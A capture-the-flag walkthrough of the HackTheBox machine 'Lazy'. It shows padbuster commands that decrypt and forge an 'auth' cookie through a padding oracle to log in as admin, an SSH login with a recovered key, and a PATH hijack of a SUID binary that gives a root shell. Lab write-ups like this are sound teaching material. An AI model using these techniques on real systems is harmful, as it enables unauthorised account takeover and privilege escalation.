



# Lazy

Author: Ewaël

**Lazy** is a medium HackTheBox box by trickster0.

`nmap -sC -sV -oN nmap 10.10.10.18 -v -A` shows ports 80 and 22 are open. Let's start with the website:



After trying some default creds for admin, I decide to register as "admi" when I see "admin" is taken already. Once I'm logged in, I see an `auth` cookie which I decide to decrypt:

```
padbuster http://10.10.10.18 Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ 8 -cookies auth=Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ
```

It shows me that only the user is saved:

```
[+] Decrypted value (ASCII): user=admi
```

Thus I can easily modify it to become "admin" instead of "admi".

```
padbuster http://10.10.10.18 Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ 8 -cookies auth=Ni4wVlpHQsjTDhiVPrye1biOBR5EXKhZ -plaintext user=admin
```

My new `auth` cookie is `BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA`, and allows me to be logged in as "admin".



With `mitsos` ssh key, `ssh mitsos@10.10.10.18 -i ssh_key` allows me to get my user flag in `mitsos` home dir:

`d558e7924bdfe31266ec96b007dc63fc`

In this same directory there is a `backup` executable with root SUID which seems to print what is in `/etc/shadow`. A quick `ltrace ./backup` reveals me a very interesting information:



`cat` is used by `system` instead of `/bin/cat` so I can easily replace this with my own version of `cat`:

```bash
#!/bin/sh
/bin/sh
```

Then `chmod +x cat` makes the script executable and `export PATH=/home/mitsos:${PATH}` adds it in first place to `PATH`. After executing `backup` again, I get my root shell and flag:

`990b142c3cefd46a5e7d61f678d45515`
